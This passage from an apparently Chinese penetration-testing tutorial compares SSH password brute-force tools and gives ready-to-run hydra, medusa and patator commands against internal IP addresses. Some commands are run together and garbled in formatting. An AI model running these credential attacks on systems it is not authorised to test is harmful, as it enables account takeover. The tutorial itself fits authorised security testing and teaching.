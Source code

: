 将本地计算机生成公私钥，将公钥文件复制到需要连接的服务器上的~/.ssh/authorized_keys文件，并设置相应的权限，即可免密码登录服务器。



```
chmod 600 ~/.ssh/authorized_keyschmod 700 ~/.ssh
```



## 八、ssh暴力破解命令总结及分析

### 1.所有工具的比较

通过对hydra、medusa、patator、brutepray以及msf下的ssh暴力破解测试，总结如下：

（1）每款软件都能成功对ssh账号以及密码进行破解。

（2）patator和brutepray是通过python语言编写，但brutepray需要medusa配合支持。

（3）hydra和medusa是基于C语言编写的，需要进行编译。

（4）brutepray基于nmap扫描结果来进行暴力破解，在对内网扫描后进行暴力破解效果好。

（5）patator基于python，速度快，兼容性好，可以在windows或者linux下稍作配置即可使用。

（6）如果具备kali条件或者PentestBox下，使用msf进行ssh暴力破解也不错。

（7）brutepray会自动生成破解成功日志文件/brutespray-output/ssh-success.txt；hydra加参数“-o save.log”记录破解成功到日志文件save.log，medusa加“-O ssh.log”参数可以将成功破解的记录记录到ssh.log文件中；patator可以加参数“-x ignore:mesg=’Authentication failed.’”来忽略破解失败的尝试，而仅仅显示成功的破解。

### 2.命令总结

**（1）hydra破解ssh密码**



```
hydra -lroot  -P pwd2.dic -t 1 -vV -e ns 192.168.44.139sshhydra -lroot  -P pwd2.dic -t 1 -vV -e ns  -o save.log  192.168.44.139  ssh
```



**（2）medusa破解ssh密码**



```
medusa -M ssh -h 192.168.157.131 -u root -Pnewpass.txtmedusa -M ssh -h192.168.157.131 -u root -P /root/newpass.txt -e ns –F
```



**（3）patator破解ssh密码**



```
./patator.py ssh_login host=192.168.157.131user=root password=FILE0 0=/root/newpass.txt -x ignore:mesg='Authenticationfailed.'./patator.py ssh_login host=192.168.157.131user=FILE1 1=/root/user.txt password=FILE0 0=/root/newpass.txt -x ignore:mesg='Authenticationfailed.'
```
